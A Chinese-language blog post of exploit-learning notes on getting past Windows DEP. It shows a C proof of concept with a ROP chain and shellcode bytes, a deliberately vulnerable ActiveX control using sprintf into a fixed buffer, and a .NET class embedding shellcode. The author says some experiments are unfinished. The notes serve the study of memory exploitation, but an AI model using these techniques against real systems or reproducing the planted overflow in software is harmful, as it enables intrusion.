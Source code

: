 ```yaml
---
title: 漏洞学习笔记-016-利用可执行内存和.NET攻击DEP
description: Ret2Libc之利用VirtualProtect和VirtualAlloc攻击DEP攻击DEP
slug: exploit-016
date: 2020-11-20 14:13:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/p/exploit-016/)

## 利用可执行内存攻击DEP

### 原理

- 有的时候在进程的内存空间中会存在一段可读可写可执行的内存，如果我们能够将shellcode复制到这段内存中，并劫持程序流程，我们的shellcode就有执行的机会

### 代码

```cpp
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"......"
"\x90\x90\x90\x90"
"\x8A\x17\x84\x7C"//pop eax retn
"\x0B\x1A\xBF\x7C"//pop pop retn
"\xBA\xD9\xBB\x7C"//修正EBP retn 4
"\x5F\x78\xA6\x7C"//pop retn
"\x08\x00\x14\x00"//可执行内存中弹出对话框机器码的起始地址
"\x00\x00\x14\x00"//可执行内存空间地址，复制用
"\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
"\xFF\x00\x00\x00"//shellcode 长度
"\xAC\xAF\x94\x7C"//memcpy
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"......"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

void test()
{
    char tt[176];
    memcpy(tt, shellcode, 450);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

### 后记

- 按理来说是要有RWE权限的内存区域的，可惜么得，此实验未完成

## 利用.NET攻击DEP

### 原理

- .NET 的文件具有和与PE文件一样的结构，也就是说它也具有.text等段，这些段也会被映射到内存中，也会具备一定的可执行属性。大家应该想到如何利用这一点了，将shellcode放到.NET中具有可执行属性的段中，然后让程序转入这个区域执行，就可以执行shellcode了
- 需求
  - 具有溢出漏洞的ActiveX控件
  - 包含有shellcode的.NET控件
  - 可以触发ActiveX控件中溢出漏洞的POC页面

### 代码

> 具有溢出漏洞的ActiveX控件

```cpp
void CVulnerAXCtrl::test(LPCTSTR str)
{
    // AFX_MANAGE_STATE(AfxGetStaticModuleState());
    // TODO: Add your dispatch handler code here
    printf("aaaa"); // 定位该函数的标记
    char dest[100];
    sprintf(dest, "%s", str);
}
```

> 包含有shellcode的.NET控件

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace DEP_NETDLL
{
    public class Class1
    {
        public void Shellcode()
        {
            string shellcode =
            "\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91" +
            "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
            "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c" +
            "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
            "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b" +
            "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06" +
            "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c" +
            "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
            "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33" +
            "\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050" +
            "\uff53\ufc57\uff53\uf857"
            ;
        }
    }
}
```

## 利用Java Applet挑战DEP

> 难以找到适合的版本，所以此实验略过，以后有机会再补充
